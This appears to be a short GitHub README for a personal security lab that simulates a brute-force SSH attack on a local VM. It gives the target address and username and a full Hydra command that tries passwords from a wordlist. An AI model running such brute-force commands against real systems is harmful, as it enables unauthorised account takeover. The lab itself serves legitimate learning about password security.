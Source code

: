 # 🧪 Lab 01 – Brute Force SSH with Hydra

## 🔍 Goal
Simulate a brute-force SSH attack against a vulnerable VM using a wordlist and Hydra.

## 🧠 What I'm Testing
- How brute-force tools work
- How SSH handles login attempts
- Password hygiene awareness

## 💡 Target
IP: `192.168.56.102`  
Username: `admin`  
Port: `22`

## 🛠️ Steps
1. Install hydra: `sudo apt install hydra`
2. Create a `credentials.txt` file (password wordlist)
3. Run brute-force attack with this command:
```bash
hydra -l admin -P credentials.txt ssh://192.168.56.102
```
